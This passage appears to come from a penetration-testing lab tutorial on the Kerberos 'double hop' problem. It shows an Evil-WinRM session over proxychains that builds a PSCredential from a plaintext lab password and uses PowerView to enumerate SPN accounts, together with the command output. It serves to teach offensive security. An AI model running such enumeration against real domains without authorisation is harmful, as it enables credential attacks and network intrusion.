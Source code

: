 So now, let's set up a PSCredential object and try again. First, we set up our authentication.

Kerberos "Double Hop" Problem

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Now we can try to query the SPN accounts using PowerView and are successful because we passed our credentials along with the command.

Kerberos "Double Hop" Problem

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

If we try again without specifying the `-credential` flag, we once again get an error message.

Kerberos "Double Hop" Problem

```shell-session
get-domainuser -spn | select 

*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname 

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```

